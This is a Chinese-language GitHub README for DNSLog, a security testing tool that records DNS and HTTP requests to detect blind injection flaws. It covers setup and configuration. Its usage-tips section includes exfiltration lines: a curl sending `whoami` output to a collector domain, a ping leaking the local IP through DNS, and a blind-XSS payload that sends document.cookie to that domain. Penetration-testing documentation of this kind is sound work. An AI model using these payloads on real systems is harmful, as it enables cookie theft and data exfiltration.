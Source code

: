```
 ____  _   _ ____  _
|  _ \| \ | / ___|| |    ___   __ _
| | | |  \| \___ \| |   / _ \ / _` |
| |_| | |\  |___) | |__| (_) | (_| |
|____/|_| \_|____/|_____\___/ \__, |
                              |___/
```
[![Python 2.6|2.7](https://img.shields.io/badge/python-2.6|2.7-yellow.svg)](https://www.python.org/)   [![License](https://img.shields.io/badge/license-GPLv2-red.svg)](https://raw.githubusercontent.com/BugScanTeam/dnslog/master/GPL-2.0) 

简介
---

DNSLog 是四叶草安全旗下 BugscanTeam 打造的一款监控 DNS 解析记录和 HTTP 访问记录的工具，在检测盲注类漏洞时有着非常重要的作用，是分布式漏洞扫描框架 BugScan 中核心库之一。

DNSLog 基于 Django 框架编写，将 DNSServer 集成进 DNSLog 中，使用者可轻松搭建使用环境。

你可以点击这里访问： [演示站点](http://admin.dnslog.link)

安装
---

1. 获取源代码

 你可以通过用 Git 来克隆代码仓库中的最新源代码

 ```
 $ git clone git@github.com:BugScanTeam/DNSLog.git
 ```

 或者你可以点击 [这里](https://github.com/BugScanTeam/DNSLog/archive/master.zip) 下载最新的源代码 zip 包,并解压

 ```
 $ wget https://github.com/BugScanTeam/DNSLog/archive/master.zip
 $ unzip master.zip
 ```

2. 安装依赖环境

 DNSLog 使用前需要安装 Django 1.8 与 dnslib ，如果已经安装可跳过此步

 ```
 $ cd dnslog
 $ pip install -r requirements.pip
 ```
3. 域名与公网 IP 准备
	
	搭建并使用 DNSLog，你需要拥有两个域名，一个域名作为 NS 服务器域名(例:a.com)，一个用于记录域名(例: b.com)。还需要有一个公网 IP 地址(如：1.1.1.1)
	
	**注意：b.com 的域名提供商需要支持自定义 NS 记录, a.com 则无要求。**
	
	1. 在 a.com 中设置两条 A 记录：

		```
		ns1.a.com  A 记录指向  1.1.1.1		
		ns2.a.com  A 记录指向  1.1.1.1
		```
	2. 修改 b.com 的 NS 记录为 1 中设定的两个域名

		> 本步骤中，需要在域名提供商提供的页面进行设置，部分域名提供商只允许修改 NS 记录为已经认证过的 NS 地址。所以需要找一个支持修改 NS 记录为自己 NS 的域名提供商。
	
	**注意: NS 记录修改之后部分地区需要 24-48 小时会生效**

4. 修改配置文件
	
 修改 `dnslog/dnslog/settings.py` 文件中相关配置：
 
 > 配置文件中的域名对应关系与步骤 3 相同
 
 ```
	# 做 dns 记录的域名
	DNS_DOMAIN = 'b.com'
	
	# 记录管理的域名, 这里前缀根据个人喜好来定
	ADMIN_DOMAIN = 'admin.b.com'
	
	# NS域名
	NS1_DOMAIN = 'ns1.a.com'
	NS2_DOMAIN = 'ns2.a.com'
	
	# 服务器外网地址
	SERVER_IP = '1.1.1.1'
 ```

5. 启动服务

 ```
 $ cd dnslog/
 $ sudo python manage.py runserver 0.0.0.0:80
 ```
 
 **Django web 默认启动端口为 8000，若要启动在 80 端口则需要 root 权限**
 
 > 如果不想启动在 80 端口，但又想在使用 HTTP 的时候不加端口号，可以自己安装 Nginx，对 b.com 做反向代理
 
 Nginx 反向代理参考脚本：
 
 ```
	server {
	    server_name *.b.com;
	    server_name b.com;
	    location / {
	        proxy_pass http://127.0.0.1:8000/;
	                proxy_set_header Host $host;
	                proxy_set_header X-Real-IP $remote_addr;
	                proxy_set_header X-Forwarded-For $remote_addr;
	                proxy_set_header X-Forwarded-Proto https;
	    }
	}
 ```


使用
---

### 站点管理

 启动服务成功后，访问 `http://b.com/admin/` 进入后台
 
 > 管理员用户名密码默认均为 admin
 
 如果忘记管理员密码，可进入 dnslog 目录下，执行如下命令重设管理员密码
 
 ```
 python manage.py changepassword admin 
 ```

### 普通用户

 在 User 表中添加使用用户的信息，表中默认已经存在 `test/123456` 这个用户。
 
 访问 `http://admin.b.com` (ADMIN_DOMAIN 指定的域名)，输入用户名密码登录。
 
 访问后会在下方看到自己的二级域名，例如 test.b.com，当请求 test.b.com 这个二级域名下的任意子域时，都会被记录，例如: demo.test.b.com。

使用技巧
---

### 命令盲注利用

对于一些命令盲注类的漏洞，可以通过 DNSLog 中的 WebLog 部分将其转化为有回显的命令执行：

```
curl "http://testhash.test.dnslog.link/?`whoami`"
```

**在 Web 控制台下看到结果：**

\#	|	path	|	ip	|	ua	| date
---|---|---|---|---
146	| testhash.test.dnslog.link/?root |	xxx.xxx.xxx.xxx |	curl/7.43.0	| 2016-05-10 07:36:47


### DNS记录中获取源IP地址

详见 [issue#3](https://github.com/BugScanTeam/DNSLog/issues/3)

```
ping -c 3 `ifconfig en0|grep "inet "|awk '{print $2}'`.test.dnslog.link
```

效果如下：

```
➜  ~ ping -c 3 `ifconfig en0|grep "inet "|awk '{print $2}'`.test.dnslog.link
PING 192.168.10.167.test.dnslog.link (106.186.118.146): 56 data bytes
64 bytes from 106.186.118.146: icmp_seq=0 ttl=52 time=259.491 ms
64 bytes from 106.186.118.146: icmp_seq=1 ttl=52 time=307.566 ms
64 bytes from 106.186.118.146: icmp_seq=2 ttl=52 time=352.757 ms

--- 192.168.10.167.test.dnslog.link ping statistics ---
3 packets transmitted, 3 packets received, 0.0% packet loss
round-trip min/avg/max/stddev = 259.491/306.605/352.757/38.082 ms
```

### XSS 盲打

在有 XSS 漏洞的页面加入类似如下代码：

```
var s=document.createElement('img');
s.src="http://xss.test.dnslog.link/?url="+document.location+"&cookie="+document.cookie;
document.head.appendChild(s);
```

以 `httpbin.org` 为例，一旦触发，在 WebLog 中可以看到：

\#	|	path	|	ip	|	ua	| date
---|---|---|---|---
146	| xss.test.dnslog.link/?url=http://httpbin.org/&cookie=_ga=GA1.2.17.142 |	xxx.xxx.xxx.xxx |	Mozilla/5.0 xxx	| 2016-06-18


相关链接
---

* [版权声明](./GPL-2.0)
* [BugScan 社区官网](http://www.bugscan.net)
* [DNSLog 示例站点](http://admin.dnslog.link/)
